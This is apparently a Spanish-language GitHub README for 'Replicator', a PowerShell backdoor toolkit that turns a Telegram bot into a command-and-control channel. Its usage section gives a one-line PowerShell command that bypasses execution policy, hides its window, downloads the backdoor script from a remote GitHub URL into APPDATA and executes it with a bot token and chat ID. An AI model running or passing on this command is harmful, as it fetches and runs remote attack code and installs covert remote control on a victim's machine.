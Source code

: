 # Replicator Telegram Backdoor Toolkit
Replicator es una puerta trasera basada en Powershell en forma de bot de mensajería instantánea que utiliza la infraestructura y la API de bot rica en funciones proporcionada por Telegram, reutilizando ligeramente su plataforma de comunicación para que actúe como un C&C.

# Uso
powershell -EP Bypass -WindowStyle hidden "(iwr 'https://raw.githubusercontent.com/josprou/Replicator/main/Replicator.ps1').content > $env:APPDATA\aaa.ps1 ; & $env:APPDATA\aaa.ps1 'API_TOKEN' 'CHAT_ID'"
